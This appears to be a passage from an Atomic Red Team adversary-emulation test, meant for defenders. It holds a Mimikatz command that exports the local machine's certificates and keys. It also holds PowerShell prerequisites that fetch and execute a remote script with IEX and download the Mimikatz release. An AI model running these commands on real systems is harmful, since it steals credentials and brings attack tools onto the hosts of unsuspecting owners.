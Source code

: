 ```cmd
"#{mimikatz_exe}" "crypto::certificates /systemstore:local_machine /store:my /export"  exit
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
